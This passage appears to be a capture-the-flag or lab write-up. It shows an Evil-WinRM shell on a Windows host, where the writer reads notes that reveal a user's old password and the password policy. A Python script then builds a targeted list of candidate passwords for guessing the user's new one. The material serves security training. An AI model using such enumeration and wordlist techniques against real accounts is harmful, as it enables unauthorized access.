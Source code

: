 ### Access as j.bold

Checking the `C:\Users\r.bud\Documents`, we find two files.

```console
*Evil-WinRM* PS C:\Users\r.bud\Documents> dir


    Directory: C:\Users\r.bud\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/29/2024   7:07 PM            327 notes.txt
-a----        1/29/2024   7:09 PM            349 note_to_james.txt
```

The file `note_to_james.txt` provides the old password for James and details the password policy.

```console
*Evil-WinRM* PS C:\Users\r.bud\Documents> type note_to_james.txt
Hello James:

Your password "rockyou" was found to only contain alphabetical characters. I have removed your Remote Access for now.

At the very least adhere to the new password policy:
1. Length of password must be in between 6-12 characters
2. Must include at least 1 special character
3. Must include at least 1 number between the range of 0-999
```
{: .wrap }

The `notes.txt` file reveals that James changed their password to adhere to the password policy by adding two more characters: one must be a special character and the other must be a digit.

```console
*Evil-WinRM* PS C:\Users\r.bud\Documents> type notes.txt
Done:
1. Note was sent and James has already performed the required action. They have informed me that they kept the base password the same, they just added two more characters to meet the criteria. It is easier for James to remember it that way.

2. James's password meets the criteria.

Pending:
1. Give James Remote Access.
```
{: .wrap }

We can use this knowledge to create a list of possible passwords for the user. To do this, we can write a simple Python script.

```python
#!/usr/bin/env python3

import string

base_pass = "rockyou"
special_chars = string.punctuation

f = open("./james_possible_passwords.txt", "w")

for i in range(0, 10):
	for special_char in special_chars:
		f.write(f"{base_pass}{special_char}{i}\n")
		f.write(f"{base_pass}{i}{special_char}\n")
		f.write(f"{special_char}{i}{base_pass}\n")
```